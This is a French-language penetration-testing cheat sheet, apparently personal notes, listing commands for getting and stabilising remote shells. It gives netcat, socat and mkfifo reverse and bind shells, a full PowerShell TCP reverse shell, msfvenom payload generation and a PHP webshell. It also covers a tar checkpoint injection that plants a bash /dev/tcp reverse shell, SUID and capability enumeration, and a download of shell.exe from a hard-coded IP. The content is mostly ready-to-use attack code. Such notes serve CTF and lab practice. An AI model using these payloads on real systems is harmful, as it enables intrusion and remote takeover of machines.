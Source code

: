 ## 1) Netcat

#### *Pour un reverse shell*

Pour l'attaquant :

```bash
nc -lvnp <port-number>
```

#### *Pour un bind shell*

Pour l'attaquant :

```bash
nc <IP> <port-number>
```

#### *Pour stabiliser le shell*

Avec python :

Permet d'avoir un shell plus joli.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

Pour donner l'accès aux commandes comme clear, ...

Apres avoir mis le shell en background :

```bash
stty raw -echo; fg
```

Permet d'avoir accès à l'autocomplétion, aux flèches et au Ctrl-C et ensuite met le shell au premier plan.

Pour rénitialiser, il suffit de taper la commande "reset".

## 2) Rlwrap

Même technique que pour netcat en utilisant rlwrap devant la commande nc. Il est utilisé notamment pour les machines windows.

## 3) Socat

Pour écouter :

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Pour se connecter :

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

- pty : Alloue un pseudo terminal sur la cible
- stderr : Toutes les erreurs sont affichés sur le shell
- sigint : Active les Ctrl-C
- setsid : crée le processus dans une nouvelle session
- sane : Essaye de stabiliser le shell

#### *Ecrypted shell with Socat*

Tout d'abord, il faudra crée un certificat auto-signé avec OpenSSL.

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Ensuite on va regrouper le fichier .key et le fichier .crt en un seul fichier .pem

```bash
cat shell.key shell.crt > shell.pem
```

Pour écouter :

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Pour se connecter :

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

Combinaison des deux techniques :

```bash
socat OPENSSL-LISTEN:<PORT>,cert=<FILE.pem>,verify=0 FILE:`tty`,raw,echo=0
```

et pour se connecter : 

```bash
socat openssl:<IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## 4) Common Payload

Pour écouter (bind shell) :

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Pour se connecter (reverse shell) :

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

## 5) Pour les Windows Server

Il faut écouter avec une des techniques de reverse shell précédentes et :

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

En modifiant l'IP et le port.

## 6) Msfvenom

Pour générer un reverse shell Windows :

```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

- -f : Choisi le format
- -o : Choisi le nom du fichier output

Les shells sont divisés en 2 catégories, les staged et les stageless :

- Staged : Le payload est envoyé en 2 parties. La première est appelée le stager. C'est la partie qui est exécutée directement par le serveur pour se connecter à un listener. Mais il ne contient pas de reverse shell dans son code. Il utilisera la connection pour charger le vrai payload et l'exécuter.
- Stageless : Le payload est envoyé entièrement avec le reverse_shell

## 7) Webshell

Un exemple de commande pour avoir un webshell :

```bash
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

## 8) Shell avec tar

Si une tâche est effectué dans qui nécessite l'utilisation de tar, alors on peut faire ce shell.

Tout d'abord :

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<attack ip>/<port> 0>&1' > /var/www/html/shell
```

Pour permettre l'exécution du script :

```bash
chmod +x /var/www/html/shell
```

```bash
touch /var/www/html/--checkpoint=1
ou avec echo "" >
```

```bash
touch /var/www/html/--checkpoint-action=exec=bash\ shell
ou avec echo "" >
```

Lancer un listener sur votre machine avec le port spécifier :

```bash
nc -lvnp <port>
```

## 9) Trouver les permissions

```bash
getcap -r / 2>/dev/null
```

```bash
find / \( -perm -4000 -o -perm -2000 \) -type f -exec ls -la {} \; 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
```

```bash
sudo -l
```

## 10) Download un shell Windows

```powershell
powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://10.11.53.14:4444/shell.exe','shell.exe')"
```

## 11) ltrace

Ne pas oublier cette commande pour afficher les appels des applications.

## 12) Groupe

Ne pas oublier de regarder les groupes avec la commande id.
